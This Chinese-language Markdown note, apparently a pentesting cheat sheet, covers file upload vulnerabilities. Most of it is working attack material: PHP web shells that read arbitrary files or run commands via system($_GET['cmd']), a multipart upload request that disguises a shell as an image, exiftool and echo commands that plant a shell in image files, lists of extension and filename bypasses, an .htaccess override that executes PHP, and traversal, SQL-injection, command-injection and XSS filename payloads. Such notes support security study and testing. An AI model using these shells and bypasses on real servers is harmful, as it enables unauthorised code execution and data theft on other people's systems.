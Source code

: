 ```yaml
---
title: File Upload Vulnerability
---
```


文件上傳漏洞是指用戶上傳可能會造成危害的檔案(~~廢話~~  

## 伺服器如何處理靜態檔案的Request

### 檔案路徑

傳統的網站會把檔案的request，1:1的映射到自己的檔案路徑，如：  

```
GET /files/avatars/profile.png HTTP/1.1
```  

`profile.png` 的絕對位置可能為`/var/www/html/files/avatars/profile.png`  

### 回傳的檔案內容

- 如果檔案類型為`non-executable`：伺服器會回傳檔案的內容  
- 如果檔案類型為`excutable`：伺服器會把request的header和parameter指派給對應的變數，並回傳執行的結果輸出  
- 如果檔案類型為`excutable`，但伺服器沒有設定要執行：大部分情況下會回傳error，但少部分情況會回傳檔案內容回來  

## Web Shell

如果使用者可以執行上傳的檔案，那麼這些檔案內容會造成危害  

### 任意讀取檔案

```php 
<?php echo file_get_contents('/path/to/target/file'); ?>
```

### 執行指令

```php 
<?php system($_GET['cmd']); ?>
```

用這樣的方式可以傳遞parameter給web shell：  
```
GET /example.com/exploit.php?command=id HTTP/1.1
```


## Bypassing

### Content-Type
若是伺服器使用Content-Type驗證檔案
```
POST /images HTTP/1.1
Host: example.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456

Content-Disposition: form-data; name="image"; filename="exploit.php"
Content-Type: image/png
<?php system($_GET['cmd']); ?>

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"
user

---------------------------012345678901234567890123456-- 
```

將`Content-Type`改成`image/png`或[其他](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt)

### magic number

伺服器驗證檔案的header  
利用exiftool:  
```
exiftool -Comment="<?php system($_GET['cmd']); ?>" img.jpg
```  

利用linux:  
```
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

### 副檔名驗證
如果遇到副檔名被擋的情況

#### 使用其他副檔名  

以下副檔名之檔案為`executable`
- PHP: `.php`, `.php2`, `.php3`, `.php4`, `.php5`, `.php6`, `.php7`, `.phps`, `.phps`, `.pht`, `.phtm`, `.phtml`, `.pgif`, `.shtml`, `.htaccess`, `.phar`, `.inc`, `.hphp`, `.ctp`, `.module`
- Working in PHPv8: `.php`, `.php4`, `.php5`, `.phtml`, `.module`, `.inc`, `.hphp`, `.ctp`
- ASP: `.asp`, `.aspx`, `.config`, `.ashx`, `.asmx`, `.aspq`, `.axd`, `.cshtm`, `.cshtml`, `.rem`, `.soap`, `.vbhtm`, `.vbhtml`, `.asa`, `.cer`, `.shtml`
- Jsp: `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`, `.wss`, `.do`, `.action`
- Coldfusion: `.cfm`, `.cfml`, `.cfc`, `.dbm`
- Flash: `.swf`
- Perl: `.pl`, `.cgi`
- Erlang Yaws Web Server: `.yaws`

#### 更改大小寫  

`exploit.pHP`

#### 在增加更多副檔名層級

`exploit.png.php`
`exploit.php.png`
`exploit.php%00.png%00.jpg`

#### 副檔名尾端加入特殊字元

- `exploit.php%20`
- `exploit.php%0a`
- `exploit.php%00`
- `exploit.php%0d%0a`
- `exploit.php/`
- `exploit.php.\`
- `exploit.`
- `exploit.php....`
- `exploit.pHp5....`

#### 混淆副檔名parser

使用多個副檔名、特殊字元和填充多個null byte混淆副檔名parser
- `exploit.png.php`
- `exploit.png.pHp5`
- `exploit.php#.png`
- `exploit.php%00.png`
- `exploit.php\x00.png`
- `exploit.php%0a.png`
- `exploit.php%0d%0a.png`
- `exploit.phpJunk123png`

#### 突破檔案名稱長度上限

`python -c 'print "A" * 232'` + `.php.jpg`

#### 繞過反繞過

`exploit.p.phphp`


## Overriding The Server Configuration

### Apache

1. 檢查`/etc/apache2/apache2.conf(或httpd.conf)`，確保server有允許使用.htaccess:
```
<Directory /path/to/your/directory>
    AllowOverride All
</Directory>
```

2. 上傳`.htaccess`於目前資料夾:  
```AddType application/x-httpd-php evil```

3. 上傳`expoilt.evil`，理論上會被當作php執行


## Filename Tricks

### path travelsal

伺服器解析後檔案可能上傳於上層目錄  
`..%2Fexploit.php`

### SQL injection

此payload可以暫停延遲10秒的sql  
`sleep(10)-- -.jpg`

### command injection

`; sleep 10;`

### XSS

`<svg onload=alert(1)>`


## Reference

- [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)
- [Port Swigger](https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/i)